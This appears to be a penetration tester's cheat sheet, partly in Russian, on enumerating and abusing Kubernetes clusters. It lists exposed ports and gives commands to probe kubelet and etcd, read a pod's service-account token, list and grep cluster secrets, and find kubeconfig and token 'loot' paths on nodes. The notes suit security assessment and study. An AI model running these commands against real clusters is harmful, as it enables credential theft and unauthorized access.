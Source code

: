 ```yaml
---
description: Kubernetes Enum/Abuse
---
```


# KUBER

<figure><img src="../../../.gitbook/assets/kuber.jpg" alt=""><figcaption><p>Kubernetes Privilege Escalation</p></figcaption></figure>



## Ports

| Port            | Process        | Description                                                            |
| --------------- | -------------- | ---------------------------------------------------------------------- |
| 443/TCP         | kube-apiserver | Kubernetes API port                                                    |
| 2379/TCP        | etcd           |                                                                        |
| 6666/TCP        | etcd           | etcd                                                                   |
| 4194/TCP        | cAdvisor       | Container metrics                                                      |
| 6443/TCP        | kube-apiserver | Kubernetes API port                                                    |
| 8443/TCP        | kube-apiserver | Minikube API port                                                      |
| 8080/TCP        | kube-apiserver | Insecure API port                                                      |
| 10250/TCP       | kubelet        | HTTPS API which allows full mode access                                |
| 10255/TCP       | kubelet        | Unauthenticated read-only HTTP port: pods, running pods and node state |
| 10256/TCP       | kube-proxy     | Kube Proxy health check server                                         |
| 10249/TCP       | kube-proxy     | metrics and configuration information (EKS)                            |
| 9099/TCP        | calico-felix   | Health check server for Calico                                         |
| 6782-4/TCP      | weave          | Metrics and endpoints                                                  |
| 30000-32767/TCP | NodePort       | Proxy to the services                                                  |
| 44134/TCP       | Tiller         | Helm service listening                                                 |



## Kubelet Api

```
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

If the response is `Unauthorized` then it requires authentication.

Custom client for kubelet communication - [https://github.com/cyberark/kubeletctl](https://github.com/cyberark/kubeletctl)



**kubelet (Read only)**

```
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```



## etcd API <a href="#etcd-api" id="etcd-api"></a>

```
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```



## NodePort <a href="#nodeport" id="nodeport"></a>

When a port is exposed in all the nodes via a **NodePort**, the same port is opened in all the nodes proxifying the traffic into the declared **Service**. By default this port will be in in the **range 30000-32767**. So new unchecked services might be accessible through those ports.

```
sudo nmap -sS -p 30000-32767 <IP>
```



## Dnscan

utility for enum services inside cluster network by PTR record

[https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e)

build:

```bash
go build -ldflags "-linkmode external -extldflags '-static -s -w'" -o myapp main.go
```

## Service Account

Check  SA rights&#x20;

```bash
kubectl auth can-i create --list
```

По умолчанию Kubernetes хранит все токены и информацию об учетных записях служб в месте по умолчанию. Перейдите туда, чтобы найти полезную информацию.

```
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

* Теперь мы можем использовать эту информацию для запроса и взаимодействия со службой API Kubernetes с доступными разрешениями и привилегиями.
* Чтобы указать имя хоста внутреннего API-сервера, мы можем экспортировать его из переменных среды.

```
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* Чтобы установить путь к `ServiceAccount`токену

```
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* Чтобы установить значение пространства имен

```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* Чтобы прочитать `ServiceAccount`токен на предъявителя

```
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```

* Чтобы указать `ca.crt`путь, чтобы мы могли использовать его при запросе `curl`запросов

```
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Теперь мы можем изучить API Kubernetes с помощью токена и построенных запросов.

**kubectl**

```bash
kubectl --token=${TOKEN} --server=https://10.233.0.1:443 --insecure-skip-tls-verify=true --namespace=namespace auth can-i --list
```

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

* Чтобы запросить доступные секреты в `default`пространстве имен, выполните следующую команду

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

* Чтобы запросить секреты, специфичные для пространства имен

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

* Получите `k8svaulapikey`пользу от секретов

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```



### Bypass Pod Security Admission

This command can show pods that violate the new PodSecurity

```bash
kubectl label --dry-run=server --overwrite ns --all \
pod-security.kubernetes.io/enforce=baseline
```



### High privileged service without auth

* Longhorn
* [Weave Scope](https://github.com/weaveworks/scope)
* flux - have web server which can give the repository through which gitops is maintained, can contain credentials
* vector - have graphql api through which you can view logs



### Loot on kube nodes

Kube config&#x20;

* `/etc/rancher/rke2/rke2.yaml`
* `/etc/kubernetes/admin.conf`
* `/root/.kube`
* `/home/*/.kube`

service accounts tokens: `/var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/`

